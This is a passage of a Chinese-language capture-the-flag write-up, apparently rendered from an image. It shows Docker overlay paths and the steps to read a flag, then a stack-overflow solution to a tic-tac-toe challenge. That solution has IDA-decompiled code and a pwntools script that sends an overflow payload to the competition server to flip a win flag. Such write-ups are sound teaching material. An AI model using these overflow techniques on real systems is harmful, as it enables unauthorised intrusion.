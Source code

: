                 "LowerDir": "/var/lib/docker/overlay2/71eea7db5a2546cdd949de378d1bd26fa5e1b56c078c536d69e0b6f7a0e56446/diff:/var/lib/docker/overlay2/84cc0cfbe67f835075e858272163e76ba000167372dd791186c2ef740becf984/diff:/var/lib/docker/overlay2/97608972c5fa12509ff962fd5cbad5387f72e0f402947bf521235749a5b45195/diff:/var/lib/docker/overlay2/fd82e07ec80f3249037de133a814614ed2f02ef27ccbc88bccf06385301ecc94/diff:/var/lib/docker/overlay2/974103978b0c8f9eaaffc8a800ea2b322c335702b9a11a6c9f63a34fe37cbd03/diff:/var/lib/docker/overlay2/247e2427ec92a370b73dd8c9cab9553df76671c5d4686fbc9ac82f8a9b4b764e/diff:/var/lib/docker/overlay2/49fd4fc382030af788bd70119e5231c7ee7537a8db210f4df9a6b7e371eaf717/diff:/var/lib/docker/overlay2/4455680b6fd278672c99eab335f50eceb450aef2729b19d138082d062f8f8d41/diff:/var/lib/docker/overlay2/154c8995b89d95ee46e801f83c37d742ac8a348f2a132c028581341b1e18414e/diff:/var/lib/docker/overlay2/0d411a2f785da7e3122530ea0bf881fbd07e15fe4604d945be89cfc3df4e9f67/diff:/var/lib/docker/overlay2/96eb7923719f484bf459ab8f1d4d3626e3b1ac82dbc8ce8179ff2d1bb74aec02/diff:/var/lib/docker/overlay2/b24b0f788c79606cccbf46adeb9acc3ca90dc4d363f7182fc2f739426a472d40/diff:/var/lib/docker/overlay2/62248d5070e1b1e72687220f1a871525937bb6c88a30de095750f854b19f09e5/diff:/var/lib/docker/overlay2/7e3e533884f81ebd4543f88b62c102dfbc0c7d6fd73d1b768c72ca91552ebf08/diff:/var/lib/docker/overlay2/115b5a2485ce15fbb2b7970ac8c8de77aca2a8dd67f9f6d9e4b3672f3e33a1aa/diff:/var/lib/docker/overlay2/2fe6b1fe6d69df0f05e7a235c8eb63c2383e17f949407bd08d769a59f7f66fc2/diff:/var/lib/docker/overlay2/7f4098994b0378eee2245acf632ce510e357ea1bdf115050f5e796a90ac60009/diff:/var/lib/docker/overlay2/193bab04897c0559590b7f51983aa695af01bcdcb13abb74da7e0188eb4dfabe/diff:/var/lib/docker/overlay2/e0117fdfe8440a0cf409910b3bd328dbc43695936dbb193a0260f74a8764937e/diff:/var/lib/docker/overlay2/481b3f69a0e3a4d85a14d9e67f9e6d8ce61aa315f3c9e3911ffa9cadf4d9c8a5/diff:/var/lib/docker/overlay2/46efa3f4929399b2e16b164e2f08f145bba07cfaacba9e6544a9c92da1b4e53e/diff:/var/lib/docker/overlay2/e94fda3bbc9e74e0c6e74c08fe795956f4472fc5f4aebafa296884b602b7bc9d/diff",
                "MergedDir": "/var/lib/docker/overlay2/fcd031b18dc91791418096bb6e1ba0255064edd5f5036b27d097286480cf042b/merged",
                "UpperDir": "/var/lib/docker/overlay2/fcd031b18dc91791418096bb6e1ba0255064edd5f5036b27d097286480cf042b/diff",
                "WorkDir": "/var/lib/docker/overlay2/fcd031b18dc91791418096bb6e1ba0255064edd5f5036b27d097286480cf042b/work"
            },
5.tree 进入第五层目录

6.cat 即可得到flag

## 生活在博弈树上（始终热爱大地）

玩了一下发现根本不可能赢 所以是现学现卖的简单栈溢出

1.拖进~~女朋友~~IDA里F5一下   发现只要v15为真就能拿到flag

```
if ( v15 )
  {
    puts("What? You win! Here is your flag:", v3, v5);
    flag_decode();
    puts(&flag, v3, v8);
  }
  else
```

2.但v15初始化为0 怎么办呢？当然是想办法让它变为非0啊（又是一个现学现卖的脚本）

```
from pwn import *



#r = process('./tictactoe')

r =remote('202.38.93.111',10141)



payload = '1'*(0x90-0x01) + p64(1)



```